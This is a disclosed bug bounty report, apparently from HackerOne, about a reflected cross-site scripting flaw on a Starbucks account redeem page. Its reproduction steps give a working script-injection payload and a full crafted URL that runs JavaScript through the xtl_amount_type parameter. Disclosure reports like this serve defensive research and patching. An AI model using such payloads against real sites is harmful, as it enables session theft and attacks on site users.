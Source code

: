 # Reflected XSS in https://www.starbucks.com/account/create/redeem/MCP131XSR via xtl_amount, xtl_coupon_code, xtl_amount_type parameters

## Report Details
- **Report ID**: 531042
- **URL**: https://hackerone.com/reports/531042
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-04-08T09:45:51.256Z
- **Disclosed**: 2019-11-13T20:24:51.176Z

## Reporter
- **Username**: zayn1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
HI,

**Summary:** Reflected XSS 
**Description:**  the parameters are complementary to each other
**Platform(s) Affected:**  my browser firefox 52.7.3

## Steps To Reproduce:

   1. go to https://www.starbucks.com/account/create/redeem/MCP131XSR?xtl_coupon_code=1&xtl_coupon_code=81431&xtl_amount=0.0&xtl_amount_type=DOLLAR_VALUE
   1. change parameter `xtl_amount_type` to </script><svg/onload=alert()>` >note:if you  go enter this the payload not work but!!!!! you change `xtl_coupon_code` and `xtl_amount` payload will work
   1. change `xtl_coupon_code` and `xtl_amount` to any think 

   1.payload be like https://www.starbucks.com/account/create/redeem/MCP131XSR?xtl_coupon_code=1&xtl_coupon_code=hkjhkjh&xtl_amount=jhkjhj&xtl_amount_type=ayn%3C/script%3E%3Csvg/onload=alert(document%2edomain)%3E
  
## Supporting Material/References:

 {F464214}


## How can the system be exploited with this bug?
  
The attacker can execute JS code.

## How did you come across this bug ?
change `xtl_coupon_code` and `xtl_amount` payload will work
In this bug the parameters are complementary to each other

## Recommendations for fix

In this bug the parameters are complementary to each other try to retreat

## Impact

* The attacker can execute JS code.

## Attachments
- zayn_xss.png
